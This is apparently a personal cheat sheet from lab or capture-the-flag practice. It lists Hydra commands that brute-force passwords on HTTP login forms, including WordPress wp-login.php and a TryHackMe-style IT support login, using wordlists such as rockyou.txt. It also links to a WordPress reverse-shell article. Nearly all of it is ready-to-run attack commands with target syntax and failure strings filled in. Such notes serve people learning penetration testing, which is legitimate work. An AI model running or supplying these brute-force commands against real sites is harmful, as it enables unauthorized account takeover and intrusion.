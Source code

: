 # hydra
```text-plain
hydra -l <user> -P <wordlist> <machine-ip> http-get /
hydra -l Elliot -P fsociety.dic 10.10.164.233 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```

```text-plain
hydra -l 'adminaccount@itsupport.thm' -P word.txt 10.10.50.50 http-post-form '/login:email=^USER^&password=^PASS^:Invalid email' -I -t 64
```

It shows error and  “use http-get” but that doesn't work and this request finds the password.

wordpress hydra:

```text-plain
hydra -l <user> -P rockyou.txt 10.10.10.10 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -I -t 64
```

[https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)